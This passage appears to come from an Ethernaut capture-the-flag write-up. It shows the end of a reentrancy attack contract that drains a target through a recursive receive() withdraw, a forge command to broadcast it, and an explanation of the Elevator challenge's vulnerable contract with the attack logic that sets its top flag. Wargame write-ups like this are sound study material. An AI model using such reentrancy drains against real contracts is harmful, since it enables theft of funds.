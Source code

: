 ```javascript
        msg.sender.call{value : address(this).balance}("");
    }

    receive() payable external{
        if (address(reentrance).balance >= 0.001 ether){
            reentrance.withdraw(0.001 ether);
        }
    }
}

```

To run script : 

```bash
$ source .env
$ forge script script/ReentrancySolve.s.sol:ReentrancySolve --rpc-url $RPC_URL --broadcast
```

# 11 Elevator

`Elevator.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

- Goal

1. We need to get to the top floor, i.e make the top boolean to `true`

- Solution

1. The Elevator calling the `isLastFloor()` function on `msg.sender` which is insecure. Dont trust the unknown libraries or contract while making the calls.
2. The `top` variable is being updated upon the return value of the `isLastFloor()` function. 
3. But, To pass the `if` condition the `isLastFloor()` should return the `false`. But the `top` will become `false` only if it results false everytime.
4. We can observe that the `isLastFloor()` function is being called twice. So, we can write a contract which implements `isLastFloor()` function is such a way that is returns `false` on first call and `true` on second call.
5. So, that the `if` condition satifsies and `top` will be updated to true.
